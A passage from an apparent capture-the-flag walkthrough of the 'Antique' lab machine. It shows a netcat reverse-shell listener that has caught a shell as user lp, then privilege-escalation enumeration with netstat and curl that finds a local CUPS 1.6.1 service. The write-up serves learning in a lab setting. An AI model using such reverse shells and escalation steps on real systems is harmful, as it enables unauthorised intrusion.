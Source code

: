 ```bash
[1]  + 20817 continued  nc -lvnp 9001

lp@antique:~$ export TERM=xterm
lp@antique:~$
```

![user_proof](assets/antique_screenshots/user_proof.png)

## PrivEsc

Running netstat show's the box is listening on localhost port 631.

```bash
netstat -antop

(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name     Timer
tcp        0      0 0.0.0.0:23              0.0.0.0:*               LISTEN      867/python3          off (0.00/0/0)
tcp        0      0 127.0.0.1:631           0.0.0.0:*               LISTEN      -                    off (0.00/0/0)
tcp        0      2 10.129.183.238:48326    10.10.14.54:9001        ESTABLISHED 1817/bash            on (0.20/0/0)
tcp        0      0 127.0.0.1:33868         127.0.0.1:631           TIME_WAIT   -                    timewait (24.70/0/0)
tcp       25      0 10.129.183.238:23       10.10.14.54:60892       CLOSE_WAIT  867/python3          off (0.00/0/0)
tcp6       0      0 ::1:631                 :::*                    LISTEN      -                    off (0.00/0/0)
```

Connecting to the port with curl shows a CUPS page.

```html
curl http://localhost:631

<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.0 Transitional//EN" "http://www.w3.org/TR/html4/loose.dtd">
<HTML>
<HEAD>
 <META HTTP-EQUIV="Content-Type" CONTENT="text/html; charset=utf-8">
 <TITLE>Home - CUPS 1.6.1</TITLE>
 <LINK REL="STYLESHEET" TYPE="text/css" HREF="/cups.css">
 <LINK REL="SHORTCUT ICON" HREF="/images/cups-icon.png" TYPE="image/png">
</HEAD>
<BODY>
<TABLE CLASS="page" SUMMARY="{title}">
<TR><TD CLASS="body">
```